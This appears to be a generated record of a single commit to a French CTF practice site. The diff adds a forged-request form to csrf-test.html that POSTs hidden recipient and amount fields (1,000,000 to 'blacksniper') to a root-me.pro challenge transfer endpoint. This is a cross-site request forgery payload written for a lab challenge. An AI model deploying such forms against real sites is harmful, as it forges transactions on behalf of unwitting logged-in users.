

Before and after one commit to Blacksniper08/eval-jorys, a plain HTML site: page csrf-test.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add form for transfer challenge in csrf-test.html

````diff
--- a/csrf-test.html
+++ b/csrf-test.html
@@ -7,7 +7,13 @@
 </head>
 <body>
     <h1>Projet CTF</h1>
-    <p>Page de démonstration pour le challenge.</p>
+
+    <form action="https://instance-01a13b1d-aa1d-71fc-bff5-554a8547536c.challenges.root-me.pro/transfer"
+          method="POST">
+        <input type="hidden" name="recipient" value="blacksniper">
+        <input type="hidden" name="amount" value="1000000">
+        <button type="submit">Tester le virement</button>
+    </form>
 </body>
 </html>
 ```
````
